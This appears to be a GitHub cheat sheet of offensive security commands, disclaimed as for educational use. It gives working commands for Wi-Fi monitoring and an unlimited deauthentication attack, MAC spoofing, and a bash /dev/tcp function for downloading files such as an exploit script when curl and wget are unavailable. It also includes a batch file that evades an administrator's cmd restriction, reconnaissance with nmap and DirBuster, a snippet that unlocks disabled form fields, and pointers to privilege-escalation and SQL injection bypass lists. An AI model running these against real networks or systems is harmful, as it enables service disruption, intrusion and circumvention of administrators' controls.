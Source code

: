 # Useful Cheatsheet

> #### Disclaimer
> 
> For Academic and Educational Purposes Only

Cheatsheet under my development, contributing regularily. Trying to include things that are hard to remember, tricks and basic utilities and how to use them. All in one place.

## Table of Contents

- [Useful Cheatsheet](#useful-cheatsheet)
  - [Table of Contents](#table-of-contents)
  - [Networking stuff](#networking-stuff)
    - [Show my wireless card name](#show-my-wireless-card-name)
    - [Put wireless card on monitor mode](#put-wireless-card-on-monitor-mode)
    - [Show routers in range](#show-routers-in-range)
    - [Show devices connected to a specific router](#show-devices-connected-to-a-specific-router)
    - [Create deauth attack](#create-deauth-attack)
    - [Change MAC address](#change-mac-address)
    - [Host DarkWeb, Secret chat](#host-darkweb-secret-chat)
  - [System compromising](#system-compromising)
    - [curl or wget without the function itself](#curl-or-wget-without-the-function-itself)
    - [Get cmd in Windows if not enabled by administrator](#get-cmd-in-windows-if-not-enabled-by-administrator)
  - [Web Penetration Testing](#web-penetration-testing)
    - [Basic Steps to Rule the World](#basic-steps-to-rule-the-world)
    - [Scanning the machine](#scanning-the-machine)
    - [Using DirBuster](#using-dirbuster)
    - [Validating a form and a button if it is disabled](#validating-a-form-and-a-button-if-it-is-disabled)
    - [List of vulnerable Unix libraries, to for example get root access](#list-of-vulnerable-unix-libraries-to-for-example-get-root-access)
    - [SQL injection auth bypass](#sql-injection-auth-bypass)


## Networking stuff

### Show my wireless card name
```
iwconfig
```

### Put wireless card on monitor mode
```
airmon-ng start {card name}
```

### Show routers in range
```
airdump-ng {card name}
```
- PWR column is showing signal strenght
- Note also the channel and BSSID of the router

### Show devices connected to a specific router
```
airodump-ng {card name} --bssid {router BSSID} --channel {router channel}
```
- router is also included there

### Create deauth attack
```
aireplay-ng --deauth 0 -c {devices MAC} -a {routers MAC ADDRESS} {card name}
```
- possibility to include more routers and more MAC adresses
- 0 means infinite number of deauth messages
- TIP of the day: put for example 50 insted of 0 and replay it with 1 second delay

### Change MAC address
```
sudo ifconfig {interface} down
sudo ifconfig {interface} hw ether {MAC address}
sudo ifconfig {interface} up
```

### Host DarkWeb, Secret chat
- use onionshare

## System compromising

### curl or wget without the function itself
```bash
function __curl() {
  read proto server path <<<$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
 
  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}
 
 
# USAGE: __curl http://www.example.com/exploit.py > sploitz.py
```
### Get cmd in Windows if not enabled by administrator
- Create a file `something.bat` with following content
```
@echo off
:a
Set /p comm=cmd~
%comm%
Goto a
```

## Web Penetration Testing

### Basic Steps to Rule the World

1. Get basic information about the targer, use it as it is
2. Scan the machine, how many ports are open?
3. Find all directiories - DirBuster
4. To be done

### Scanning the machine

```
nmap -sV {IP ADDRESS}
```

- This provides information about services version are which ports are in use, all in once

### Using DirBuster

- Used for detecting all folders, even the hidden ones

```
dirbuster dir -u {IP ADDRESS} -l {WORDLIST PATH}
```


### Validating a form and a button if it is disabled

- Console will fix this problem

```
var inputField = document.querySelector('input[type="..."][name="..."]');
if (inputField) {
  inputField.removeAttribute("disabled");
}
```

- Run this for both, button and input field and it will be enabled


### List of vulnerable Unix libraries, to for example get root access

- https://gtfobins.github.io/

### SQL injection auth bypass 

 Check this [list](./files/web_pentesting/sqli_auth_bypass_list.txt).
